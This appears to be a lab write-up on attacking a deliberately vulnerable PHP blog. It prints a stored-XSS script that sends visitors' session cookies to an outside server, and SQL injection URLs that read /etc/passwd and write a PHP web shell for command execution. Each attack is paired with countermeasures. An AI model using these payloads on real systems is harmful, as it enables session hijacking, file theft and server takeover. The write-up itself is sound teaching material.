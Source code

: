 # 1 - Cross-Site Scripting

## 1.1 - XSS vulnerability: cookie hijack attack

When creating a new post, one can easily see that angle brackets aren't
escaped, hence allowing a XSS attack.

With the following payload, any user loading the post page will send
a GET request to 10.0.2.2 with its cookie as a query parameter.
As a sidenote, I ran my own little Web server on my host outsite
VirtualBox, which explains this raw IP.

```html
<script>
var request = new XMLHttpRequest();
request.open("GET", "http://10.0.2.2:3001?cookie=" + document.cookie);
request.send(null);
</script>
```

The server receives a request with a body similar to the following one:

```json
{ cookie: 'PHPSESSID=4l9v89l9s2vkog36aoef350pd4' }
```

Then, you just have to wait for an admin to leak its cookie, and with
his cookie you can pretty much spoof its identity. To do so, you just
have to add a cookie on your client browset and set its value to the
admin stolen cookie.

## 1.2 - Countermeasures

The easiest way to prevent this XSS vulnerability is to sanitize all
fields from the server to the client using, for example,
`htmlspecialchars` in PHP.

The user input should also be validated to avoid inserting illegal
characters into the database, like weird unicode characters that can
mess with the disposition of the page (Zalgo, RTLO, etc). For "real" XSS
attacks, some websites like GitHub restrict the use of certain tags like
`<script>` or `<style>` while allowing some other (`<a>`, `<br/>`...).
Make sure however that, for images, their source is also checked.

Otherwise, a heavier solution could be to use a front-end framework
like Angular or React and use API requests to fetch the data. These
framework will then sanitize the data by themselves by default and
prevent unsafe DOM operations.

HTTP headers can also be used to limit the leak if a XSS is exploited.
Content Security Policy can prevent the client from fetching external
websites and allowing only its own domain.

Finally, even with a XSS vulnerability, cookie theft can be avoided by
marking the cookie as HTTP only, which makes it unreadable by a JS
script.

# 2 - SQL Injection

## 2.1 - Vulnerability

An SQL injection happens when the client is allowed to communicate with
the database with unsanitized input, effectively gaining access to it.
In a safe web server, the client communicates to the server through an
API or using forms, and then the server communicates to the database.

However, on the `/admin/edit.php` page, it can be seen that it is
possible to directly access the SQL database through the `id` query
parameter.

After trying the other pages, it feels like this is the only SQL
vulnerability. However, with these kind of vulnerabilities, the devil is
in the details and it is a tedious job to check all inputs.

To find this vulnerability, I noticed that the route
`/admin/edit.php?id=-1` would, obvously, not find anything, however the
route `/admin/edit.php?id=-1 or true` would find a result.
Then, after some trial and error, I found that the route
`/admin/edit.php?id=0 union select 1,2,3,4` fills the textarea with the
text `3`. We just have to replace this `3` in the request by something
more useful and voila, with the route
`/admin/edit.php?id=0 union select 1,2,load_file("/etc/passwd"),4` we
get the content of the `/etc/passwd` file.

Looking at the source of the page, we can see that a `css` directory
exists. Usually, web servers are served from the Unix directory
`/var/www`. We can then try to create a file inside using our previous
SQL injection, on the route:
`/admin/edit.php?id=0 union select 1,2,3,4 into outfile "/var/www/css/test.php"`
Then, getting the page `/css/test.php` shows `1 2 3 4`, which proves
that we managed to write code into a server file.

Finally, we just have to use the route
`/admin/edit.php?id=0 union select 1,2,"<?php system($_GET['cmd']); ?>",4 into outfile "/var/www/css/attack.php"`
to create a remote shell on the `/css/attack.php` page. The command is
sent using the `cmd` query parameter. For example, we can now get the
content of the `/etc/passwd` file by fetching
`/css/attack.php?cmd=cat /etc/passwd`. This even works without the admin
cookie; we effectively installed a backdoor in the system, and can now
do whatever we want, like installing packages, load additional scripts
from internet, open a SSH connection, etc.

## 2.2 - Countermeasures

On the application side, every user input should be sanitized. The
server should also use prepared statements to force MySQL to interpret
the data as data and not as a command.
```php
$stmt = $conn->prepare("INSERT INTO db (username, password) VALUES (?, ?)");
$stmt->bind_param("ss", $user, $passwd);
```
As always, one can also use an ORM framework to make sure no SQL query
get forgotten.
SQL transactions can also be used, such that the transaction can be
cancelled if the server notice something is off, like more than one row
deleted from the table.

Additionally, the database itself should have as few permissions as
possible. It shouldn't be possible to access or modify external
resources like the file system, internal resources like the SQL users
or the structure of the table (forbid drop, add or remove column, change
charset, etc).

The third and last point is at the OS level. The Web server should
definitely not run as root, it should at least run as a separate user
with very limited read / write filesystem access, and at best run in its
own Docker container. This would also limit the resource allocation by
preventing exessive RAM or CPU usage that could slow the whole physical
server.
